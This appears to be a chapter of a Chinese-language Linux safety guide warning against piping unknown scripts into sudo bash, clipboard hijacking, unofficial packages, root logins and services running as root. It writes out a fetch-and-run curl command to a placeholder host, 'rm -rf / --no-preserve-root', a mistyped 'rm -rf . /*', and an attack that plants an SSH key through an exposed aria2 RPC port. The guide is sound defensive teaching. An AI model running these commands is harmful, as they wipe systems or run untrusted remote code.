

網上教程不會告訴你的類 Unix 使用注意事項
$ curl https://lorem.ipsum/dolor.sh | sudo bash
上面的一行命令，你看著熟悉嗎？
noarch 現在告訴你，這個你將要執行的 dolor.sh 內容是這樣的：
rm -rf / --no-preserve-root
如果你在使用 GNU/Linux 或 *BSD, 執行它會刪除你電腦上的所有資料，需要你耗費大量精力找回。
這類作業系統自由度極高，但也代表著人為損壞的門檻更低；因此你需要在使用時多加註意。
下面是 noarch 在數年 GNU/Linux 使用過程中總結出的 do's & don'ts.
不： 執行未知指令碼
我們再來看下開頭 noarch 提到的命令：
$ curl https://lorem.ipsum/dolor.sh | sudo bash
它其中的管道符號 | 代表所有從 curl 輸出的內容均會被盲目地被 sudo bash 執行。
你可能會問，那我是不是就不要執行指令碼了？
當然不是。前提是你在執行指令碼之前瞭解自己在執行些什麼。 noarch 取這個使用管道符號執行指令碼的例子，還強調稽核指令碼的重要性。
noarch 建議你在執行任何指令碼之前，先下載下來粗略閱讀一遍，然後再給它可執行許可權執行。這樣你至少知道自己在執行什麼。
你真的需要一鍵指令碼嗎？
noarch 的個人意見：使用他人的一鍵指令碼，視覺化面板等不是學習 Unix 的好方法。
指令碼沒法覆蓋所有使用情況，不知道目標機器的硬體配置，因此往往只能取一個“剛好能執行”的配置。
例如，如果你使用一個指令碼配置 LNMP (Linux + Nginx + MySQL + PHP), 你的 Nginx 配置可能不會禁用不安全的 HTTP, 並且未啟用嚴格傳輸安全。
這讓你的網站暴露於 TLS 降級攻擊：一個過度簡單的描述就是中間人攻擊者攔截客戶端開始 HTTPS 通訊的請求，使得客戶端只使用 HTTP 訪問你的網站。攻擊者再可以由此竊取你使用者的帳號密碼，修改你網站的內容...
除了安全問題之外，忽略細節需要犧牲效能：因為安全問題，眾多發行版的 Nginx 安裝都預設禁用 Gzip 壓縮。這會讓你的使用者和伺服器浪費許多寶貴的流量，並降低載入速度。如果你手動配置 Nginx 並願意瞭解更多技術細節，你就可以專門為靜態資源 (CSS, JS...) 啟用 Gzip.
Gzip 配置得當能幫你省下超過 70% 的流量！
不： 複製貼上進 shell
你在瀏覽器內複製的東西不永遠是你想的那樣。
網站可以用 Javascript 劫持你的剪貼簿，讓你複製與你選擇時完全不同的內容。
並且，你在貼上時，甚至不需要手動按回車執行指令：在大多數預設情況下，惡意剪貼簿劫持內的一個換行字元就足以讓命令在你貼上時就執行。
即使你是 oh-my-zsh 的使用者，啟用了 bracked pasting, 惡意程式碼也可以通過包含 bracketed pasting 字元來逃逸這個功能，就像眾多 SQL injection 一樣。
一些終端模擬器，例如 iTerm2, gnome-terminal 和 Terminal.app 會自動將 bracket 字元轉義，這樣你相對不怎麼需要擔心最後一點。
貼上進 vim 也不安全
你可能以為 Vim 只是一個文字編輯器，你在其中貼上內容是安全的；
但惡意程式碼還可以利用 Vim 的巨集功能執行命令。這是另一個 Demo, 以及一些應對措施。
那我如何科學地複製貼上？
最好的方案 - 不要複製貼上網際網路上的內容到 Shell 等允許執行指令的地方。
如果你實在要貼上，一個更基本的文字編輯器，例如 gedit 可能適合你的需求。
如果你願意接受一些代價，你也可以禁用瀏覽器的 Javascript 複製貼上功能：
以 Firefox 或 Tor 瀏覽器為例，去 about:config 裡禁用 dom.allow_cut_copy.
這會阻止所有 Javascript 引起的複製貼上行為，意味著例如 Google Docs 以及 mdBook clipboard.js 這些對 Javascript 剪貼簿的合法應用將會失效。
不： 安裝野包
“野包”指除了發行版官方軟體源之外的軟體包。
例如，Discord 是一個專有軟體，因違反許多發行版的規定而無法進入官方軟體源；而你獲得它的方法之一就是通過 Discord 官網下載它的 .deb 軟體包；這個來自 Discord 網站的軟體包就稱之為“野包”。
另一個例子是 docker-ce, 它用來在老系統上執行最新版 Docker.
需要注意的是，Canonical 的 PPA, Arch Linux AUR 等都屬於“野包”。它們不受到發行版的穩定性/相容性保障。
這些“野包”為系統帶來了諸多威脅：
-
為了最大化相容性，野包往往自己打包所有依賴庫，而這些依賴庫不隨系統更新。
- 如果某個依賴出現安全問題，你將需要依靠軟體釋出者進行更新；
-
除此之外，不帶軟體源的“野包”還完全無法自動更新；
-
如果野包使用系統依賴，那麼問題更大了：你在進行發行版大更新時，它們大概率會因為 ABI/API 變更集體罷工；
- 如果野包註冊了服務開機自啟，它甚至可能會導致你的電腦完全無法開機；
-
不明來源的包能像上述指令碼一樣在安裝時執行指令碼完全摧毀你的系統。
野包的替代
以上述 Discord 為例，你可以在 Flathub 上找到它的 Flatpak 版；這個 Flatpak 版雖然也打包所有依賴，但它在沙盒內執行，並且能夠被統一更新。
來自 Ubuntu 的 Snap 也提供了類似 Flatpak 的沙盒環境，讓你能夠更安全地執行專有軟體。
除了用於執行專有軟體以外，Flatpak 和 Snap 還提供許多軟體的更新版本；
例如在本文編寫時，Debian 10 提供 GIMP 2.10.8, 但你可以通過 Flatpak 執行 GIMP 2.10.22 或 GIMP 3 的最新測試版，而不用擔心它們突然損壞系統。
至於 docker-ce, 它在大多數情況下不必要；例如 Debian 就提供了 docker.io. 你將來還可以使用 podman 來代替 Docker, 並且 Podman 相比 Docker 不需要後臺守護程序。
make install?
當你執行 make install 時，你在執行開發者給你的一個安裝指令碼；根據你 ./configure 時配置的選項，它可能會將軟體安裝到 /usr/local/. 這樣還好，因為這個地方專屬於“野包”；
但是，類似於不執行未知指令碼，請在 make install 前檢查 Makefile, 確保你能將它解除安裝乾淨。你也可以使用 debuild 來與 Makefile 互動，自己建立一個相對好一點（至少能被 dpkg 追蹤）的“野包”。
別無選擇？
有意思的是，noarch 上面講到的“野包”之一就是安全執行野包的一個方法。
你可以使用 Podman 或 Docker 執行一個發行版容器，然後在容器裡安裝野包。任務完成後，把容器刪除即可。如果你需要更多安全性，虛擬機器也是一個好主意。
不： 使用靜默選項

圖源：@k4yt3x
上圖是為什麼你不應該使用靜默選項的一個絕佳例子。圖中 @k4yt3x 嘗試使用 apt full-upgrade 升級系統，然而 telegram-desktop 卻與現有的 QT5 衝突，引出一串刪除包的動作。
如果他在這裡使用了 -y 來自動確認，整個 QT5 框架將會被解除安裝；如果他再懶一些，還使用了 --autoremove --purge, 後果將不堪設想。
不： 使用 root 登入
一直使用 root 賬戶登入，除了嚴重安全問題之外，你還被暴露在手滑的風險下。
例如你想 rm -rf ./*, 卻多打了一個空格，變成了 rm -rf . /*, 這個操作不僅不會觸發 preserve-root, 並且後果與直接刪除 / 沒有什麼區別。
不： root 執行服務
noarch 再舉一個例子：你使用 aria2 搭建了一個下載機。
你對安全並非完全不重視，使用了 ssh key 登入，並且限制了可以訪問 ssh 的 IP 地址。
但你犯了一個錯誤：你在 root 登入的情況下使用 nohup 在後臺執行 aria2c, 並且暴露了 RPC 埠。
在不利用任何 0day 的情況下，攻擊者只需要找出你的 aria2 RPC 金鑰（你為了方便，它多半是一個弱密碼），然後下載他的 ssh 公鑰到 /root/.ssh/authorized_keys, 這臺機器就是他的了。
noarch 推薦的使用方法是為 aria2c 建立一個專門，低許可權的使用者，然後將它以這個使用者執行；你還可以為它建立一個 systemd 服務，指定執行時的使用者和組，或者使用 systemd 的動態使用者功能。
不： nobody 執行服務
感謝 @Karuboniru 的勘誤！
你可能覺得，系統裡最低許可權的使用者是 nobody, 也確實有很多教程叫你把服務在 nobody 下執行。那麼以後低許可權的程序都用 nobody?
很抱歉，這是一個誤導。noarch 在本章第一版時也犯了這個錯誤。
使用 nobody 執行服務，會使你的服務意外獲得其它在 nobody 下的資源。nobody 還被 Linux 核心用來對映無法對映到當前名稱空間內的 UID, 例如 NFS 使用的 32 位 UID.
不： 盲目跟隨“教程”

圖源：@ducksoft
剛看完上一節不安裝野包，你應該意識到上圖的行為像是自殺。它將 rpm 包強行安裝在基於 Debian 的發行版上，後果可想而知...
包括 noarch 在內，網際網路上的教程編者也經常犯錯誤，或者無法及時更新他們的教程。（就看上一節不 nobody 執行服務！）
盲目跟隨這些教程可能使你陷入死衚衕，使用一個已經被拋棄的配置，例如在 Nginx 上啟用 SSLv3. （永遠別嘗試在生產環境上這麼做！）
如果你覺得你在遵循的教程有點奇怪或過時，請閱讀 man pages.
最好： 閱讀 man pages
說起 man pages, 它是學習類 Unix 系統的最好方法：軟體的官方文件通常就被打包為 man pages - 文件頁。
例如，noarch 要為自己搭建一個 cgit 視覺化，而我不知道如何配置 cgitrc (cgit 的配置檔案)。
這時 noarch 只需要執行 man cgitrc, 這個由 cgit 開發者寫的文件內就告訴了 noarch 這個配置檔案的格式，配置項以及它們的用途。比網上某個教程可靠得多！
閱讀 man pages 可能比盲目跟隨網上教程耗時長，但它絕對能給你省下後續解決問題的時間。
如果你是 *BSD 使用者，因為網際網路上幾乎沒有傻瓜式教程，閱讀 man pages 幾乎是你生活不可或缺的一部分。
最好： 定期備份
如果你在 privacy.noarch 的 Telegram 群內活躍，你應該知道 noarch 使用 Btrfs.
Btrfs 的寫入時複製特性為 noarch 的日常備份帶來了極大便利；並且它也多次在 noarch 搞壞系統時拉了我一把。
別急著轉換檔案系統到 Btrfs; noarch 想要傳達的資訊是，時常備份系統能在你玩脫時把你救回來。
無論是雲伺服器提供商的“快照”功能，還是簡單地複製 home 目錄，保留對你而言重要的資料是“不玩脫”重要的一環。
最好： 擁抱自由軟體
執行著 GNU/Linux, 卻還在尋找執行 Microsoft Office, Adobe Photoshop, Discord 等專有軟體的方法？
這可能是現在的你，這也是曾經的 noarch.
在 GNU/Linux 或 *BSD 上執行專有軟體，專有軟體會將你作為“二等公民”對待。
這是因為他們根本不關心，或是很少關心這些使用者的體驗：2020 年，GNU/Linux 和 *BSD 的桌面市場佔有率加起來還不到 MacOS 的七分之一。
而自由軟體則是另一個故事了：它們的作者往往自己使用 GNU/Linux 或 *BSD，許多還專門為這些作業系統構建。
例如 Evince, 來自 GNOME 專案的 PDF 閱讀器，雖然功能沒有 Adobe Acrobat “全面”，但能保你輕鬆閱讀和填寫大多數 PDF 文件而不遇到奇怪問題。
另一個例子是 GIMP, 儘管作者不喜歡它被這麼叫，它依然被廣泛稱為“自由的 Photoshop”. 除了智慧性比 Photoshop 差點，它能承擔所有你在 Photoshop 上的任務。
privacy.noarch的首要任務之一就是讓你更快上手各類自由軟體！
多問問題，問好問題
雖然作為一個 內向的作曲家，但是 noarch 依然想在最後說：請利用好社群資源。
GNU/Linux 和 *BSD 由數千個元件構成，當你遇到問題時，請弄清楚是哪個元件引發了你的問題；
例如，你的電腦經常在使用過程中突然卡住，請查閱 syslog, 查出到底是某個軟體，桌面環境，還是核心引起的問題。
在你找出出問題的元件之後，請去它們對應的 bug tracker 搜尋；因為如果你的問題確實由一個最近出現的 bug 引起，搜尋引擎沒法及時索引 bug tracker.
例如 noarch 在 Linux 5.7 釋出時遇到了一個巨大的 bug, 它影響了所有 Polaris 11 架構的 AMD 顯示卡，包括 noarch 的 RX580 在內，使得 Linux 核心在執行幾分鐘到幾十分鐘不等時 panic.
noarch 在搜尋引擎搜尋無果，自己編譯核心無果，後來才在 Linux kernel bugzilla 找到了這個問題。雖然沒有參與測試，但 noarch 也得到了解決方案：將核心降級。幸運的是，降級到 Linux 5.6 之後，這個問題就消失了。
如果你對問問題有更多的疑惑，可以參考提問的智慧，它圍繞 Hacker 社群的傳統，詳細講解了如何問關於軟體的問題。
如果你發現 noarch 在本章漏了哪些重要內容，請別猶豫，問 noarch 或者為 privacy.noarch 加上你想要的內容。